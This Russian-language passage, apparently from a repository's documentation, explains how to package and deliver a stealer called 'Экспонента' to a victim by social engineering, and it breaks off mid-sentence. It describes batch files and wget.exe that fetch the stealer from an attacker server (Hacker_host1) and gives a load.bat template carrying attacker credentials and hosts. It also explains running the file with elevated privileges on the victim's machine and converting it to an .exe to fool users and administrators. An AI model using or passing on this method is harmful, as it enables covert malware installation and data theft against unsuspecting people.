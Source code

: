 
СОЗДАНИЕ ДИСТРИБУТИВА ДЛЯ РАСПРОСТРАНЕНИЯ МЕТОДОМ СОЦИАЛЬНОЙ ИНЖЕНЕРИИ
====


Устанавливать файлы стайлера локально или через удалённый доступ — неправильная идея со всех сторон. Поскольку пакет для работы требует Интернет, то и устанавливаться он должен также из Интернета. Ниже будет рассказано, как подготовить файл для загрузки пакета из Интернета и сокрытия установки методами социальной инженерии.


Подготовка установочного файла
----

Для «нормальной» установки стайлера в этом каталоге присутствуют файлы:

- load_distrib.bat — общий для всех файл, скачивающий и устанавливающий файлы дистрибутива стайлера «Экспонента»;

- load.bat — пример кастомизированного под конкретную жертву файла загрузки стайлера.

- wget.exe — собственно программа для скачки установочных файлов с сервера Hacker_host1

Назначение первого файла — открытие портов для FTP и веб-клиента, подготовка файла сценария и скачивание дистрибутива этим клиентом, а также запуск локального установщика стайлера. Информацию для этого пакетный файл получает из командной строки.

Единственное назначение второго файла — запуск первого файла с заполненными по умолчанию параметрами кастомизации. Дело в том, что запустить файл из Интернета с параметрами затруднительно, а с использованием методов социальной инженерии — невозможно. Только для этого и создан этот файл.

Формат этого файла следующий

Echo off
start load_distrib.bat «значение переменной Hacker_User» «значение переменной Hacker_Pass» «значение переменной Hacker_host1» «значение переменной Hacker_host2»

Теперь для запуска процесса инсталляции нужно, поместить оба файла в один каталог, и запустить файл load.bat с повышенными привилегиями. Вариант, как это сделать на практике, смотри ниже.


Подготовка файла для пересылки на компьютер жертвы
----

Подготовленные таким образом файлы устанавливают стайлер произвольной конфигурации на компьютер жертвы. Для этого запускается файл load.bat на компьютере жертвы из произвольного каталога, с повышенными привилегиями выполнения. Всё бы хорошо… Только переслать файл с таким расширением на компьютер жертвы будет проблематично, а запустить такой файл с повышенными привилегиями, в обычных условиях пользователю будет невозможно. Администратора такой файл насторожит, а лузеры не умеют запускать командные файлы.

К счастью для хакеров, есть программа для конверсии командных файлов в исполняемые файлы с расширением *.exe. Для установки программы подаётся команда:

choco install –y battoexeconverter

После установки запустите программу, откройте в её редакторе командный файл, задайте опции конвертирования, конечный каталог, и бинго! Будет создан исполняемый файл с той же функциональностью.

Перечислять опции и команды работы этого конвертера автор не будет – это тема отдельной статьи. Отметим, что файл после конвертации сможет:
